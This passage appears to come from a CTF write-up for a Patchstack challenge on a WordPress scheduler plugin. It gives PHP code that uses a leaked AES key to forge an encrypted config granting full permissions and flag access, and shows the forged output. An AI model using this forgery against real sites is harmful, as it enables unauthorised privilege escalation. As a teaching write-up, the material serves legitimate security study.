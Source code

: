 ### Forging Our Own Encrypted Data

With the fully leaked encryption key, we can now forge our own encrypted data!

One thing to notice is that the plugin uses a different key to encrypt and decrypt:

```php
// decryption
openssl_decrypt(
    base64_encode($encrypted),
    'AES-256-CBC',
    $this->encryption_key, // 36 characters of the encryption key
    0,
    $uuid
);

// encryption
openssl_encrypt(
    json_encode($config),
    'AES-256-CBC',
    $uuid, // 16 characters of the encryption key
    0,
    $uuid
);
```

So, to forge our own encrypted data, we need to use the fully leaked 36 characters key instead of the partial leaked one:

```php
function forgeConfig($decryptedConfig) {
    $decryptedConfig['status'] = 'publish';
    $decryptedConfig['permissions'] = array( 'all' => true );
    $decryptedConfig['flag_access'] = true;

    $uuid = substr($decryptedConfig['encryption_key'], 0, 16);
    $encryptedForgedConfig = openssl_encrypt(
        json_encode($decryptedConfig),
        'AES-256-CBC',
        $decryptedConfig['encryption_key'],
        0,
        $uuid
    );
    return base64_encode($uuid . base64_decode($encryptedForgedConfig));
}
[...]
$encryptedForgedConfig = forgeConfig($decryptedConfig);
echo "[*] Forged encrypted config:\n";
print_r($encryptedForgedConfig);
```

```shell
┌[siunam♥Mercury]-(~/ctf/Patchstack-Alliance-CTF-S02E01/Patchstack-Scheduler-Pro)-[2025.02.24|21:18:03(HKT)]
└> php forge_encrypted_data.php
[...]
[*] Forged encrypted config:
MWEwNDY1YWQtMTFkMy00NBNIFjAu66sd6Nnz83BhD+1Jpn18yM/ym6Szov5d8MU2XUbu+dvlmap+PuHPfiDhXyqtUuJL55byn0tM+OX+M43UVWSi3c06YVe3g5qVVs5ajv+LPOWaddqVJHtyvbLDwU9JApfPhg++Y+F/G/UpjSSRtBnt0cwv2G1jg5Xv2Xg2
```
